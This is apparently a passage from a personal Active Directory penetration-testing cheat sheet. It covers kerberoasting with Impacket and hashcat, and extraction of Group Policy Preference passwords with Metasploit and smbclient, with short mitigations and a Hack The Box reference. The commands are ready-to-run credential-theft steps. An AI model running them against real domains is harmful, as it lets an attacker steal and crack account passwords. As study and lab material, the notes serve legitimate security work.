 Mitigation:
- limit user/group token creation permissons
- account tiering
- local admin restriction

### kerberoasting

[Impacket Github link](https://github.com/SecureAuthCorp/impacket)

Get TGS and decrypt server's account hash

1. get spn's, dump hash
2. crack the hash

GetUserSPNs
```
GetUserSPNs.py domain.name/username:password -dc-ip ip -request
```

hashcat
```
hashcat -m 13100 -o crack.txt nhash.txt /usr/share/wordlists/rockyou.txt
```

Mitigation:
- strong passwords
- least privilege

### gpp/cpassword

metasploit
```
use auxiliary/scanner/smb/smb_enum_gpp
set RHOSTS ip
set SMBUSER username
set SMBPASS password
run

use post/windows/gather/credentials/gpp
set SESSION1
run
```

manual
```
smbclient //ip/SYSVOL -U username -P 
# locate and download Groups.xml
# \Policies\{EE416E94-7362-4587-9CEC-651656DB7538}\Machine\Preferences\Groups\Groups.xml
gpp-decrpyt hash
```

HTB: Active

### url file

[Responder Github link](https://github.com/SpiderLabs/Responder)

